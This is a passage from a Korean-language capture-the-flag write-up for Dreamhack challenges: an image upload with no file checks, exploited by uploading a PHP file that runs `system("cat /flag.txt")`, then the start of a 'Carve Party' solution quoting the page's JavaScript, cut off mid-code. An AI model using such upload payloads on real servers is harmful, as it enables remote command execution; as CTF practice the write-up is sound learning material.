 ```php
</body>
</html>
```

문제는 이미지 저장소인데 딱히 이미지 파일에 대한 검증이 없다. 무엇이든 올릴 수 있다는 것이니 뭘로 flag를 얻어볼까?

```php
<?php
	echo system("cat /flag.txt");
?>
```

![image-20220621165255723](../img/image-20220621165255723.png)

사실 `cat flag.txt`로 두 번 전송했다가 왜 안나오지 하고 세번째에 플래그를 얻었다 ㅋㅋㅋㅋㅋ

<br><br><br>

-----

# > dreamhack.io: Carve Party

## writeup

![image-20220621192238173](../img/image-20220621192238173.png)

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js" integrity="sha512-bLT0Qm9VnAYZDflyKcBaQ2gg0hSYNQrJ8RilYldYQ1FxQYoCLtUjuuRuZo+fjqhx/qtq/1itJ0C2ejDxltZVFg==" crossorigin="anonymous"></script>
<script>
var pumpkin = [ 124, 112, 59, 73, 167, 100, 105, 75, 59, 23, 16, 181, 165, 104, 43, 49, 118, 71, 112, 169, 43, 53 ];
var counter = 0;
var pie = 1;

function make() {
  if (0 < counter && counter <= 1000) {
    $('#jack-nose').css('opacity', (counter) + '%');
  }
  else if (1000 < counter && counter <= 3000) {
    $('#jack-left').css('opacity', (counter - 1000) / 2 + '%');
  }
  else if (3000 < counter && counter <= 5000) {
    $('#jack-right').css('opacity', (counter - 3000) / 2 + '%');
  }
  else if (5000 < counter && counter <= 10000) {
    $('#jack-mouth').css('opacity', (counter - 5000) / 5 + '%');
  }

  if (10000 < counter) {
    $('#jack-target').addClass('tada');
    var ctx = document.querySelector("canvas").getContext("2d"),
    dashLen = 220, dashOffset = dashLen, speed = 20,
    txt = pumpkin.map(x=>String.fromCharCode(x)).join(''), x = 30, i = 0;

    ctx.font = "50px Comic Sans MS, cursive, TSCu_Comic, sans-serif"; 
    ctx.lineWidth = 5; ctx.lineJoin = "round"; ctx.globalAlpha = 2/3;
    ctx.strokeStyle = ctx.fillStyle = "#1f2f90";

    (function loop() {
      ctx.clearRect(x, 0, 60, 150);
      ctx.setLineDash([dashLen - dashOffset, dashOffset - speed]); // create a long dash mask
      dashOffset -= speed;                                         // reduce dash length
```